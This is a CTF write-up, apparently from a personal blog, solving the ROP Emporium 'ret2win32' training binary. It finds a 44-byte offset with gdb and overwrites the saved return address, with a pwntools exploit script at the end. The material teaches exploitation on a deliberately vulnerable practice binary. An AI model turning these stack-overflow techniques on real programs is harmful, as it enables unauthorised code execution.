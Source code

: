 ```yaml
---
layout: post
title: "Ret2win32"
author: "Trojan187"
categories: ctf
tags: [documentation,sample]
image: ctf.PNG
---
```



## Table of Contents

1. [Introduction](#introduction)
2. [Analysis](#analysis)
3. [Plan](#plan)
4. [Solution](#solution)


##  Introduction

The challenge provides us with the binary.

HINT from: [!https://ropemporium.com/challenge/ret2win.html](https://ropemporium.com/challenge/ret2win.html)
As it states; you'll feed each binary with a quantity of garbage followed by your ROP chain. In this case there is a magic method we want to call and we'll do so by overwriting a saved return address on the stack. Certainly nothing that could be called a 'chain' by any stretch of the imagination but we've got to start somewhere. We'll do a little RE to confirm some information but nothing serious

---
### ROP-Emporium: ret2win32

_Files:_ `ret2win32`

---

##  Analysis

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/checksec.PNG">

Using radare2 to analyze all referenced code.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/r2_aaaa.PNG">

Print the disassembly of the ret2win() function.
NOTE* `0x08048662` This looks very interesting and a potential address that can be used if the registers can be controlled. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/r2_pdf_ret2win.PNG">

Creating a pattern of 100 characters to use to locate the segmentation fault

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/gdb_start_pattern_create.PNG">

Segmentation fault occured and EIP was overwritten by 'AFAA' `0x41414641`. The offset is located at 44 bytes. 
EIP can now be controlled.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/gdb_EIP_Seg_fault.PNG">

##  Plan

The hint said there will not be chaining required, hmmm the solution may just be that simple. So I thought I would just input the address I noted `0x08048662` when disassembling the ret2win() function im `Image#3` above. 


```python

run <<< $(python -c 'print "A"*44 + "\x62\x86\x04\x08"')
```
Nice! It worked. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/gdb_flag.PNG">

And this is my final python script to exploit it.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win/flag.PNG">

##  Solution

```python

#!/usr/bin/python
from pwn import *

context(arch='x86', os='linux', endian='little', word_size=32)

binary_path = './ret2win32'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 44
buf += p32(0x08048662)

print(p.recvuntil('!\n'))
p.sendline(buf)
p.interactive()



```



## END
---

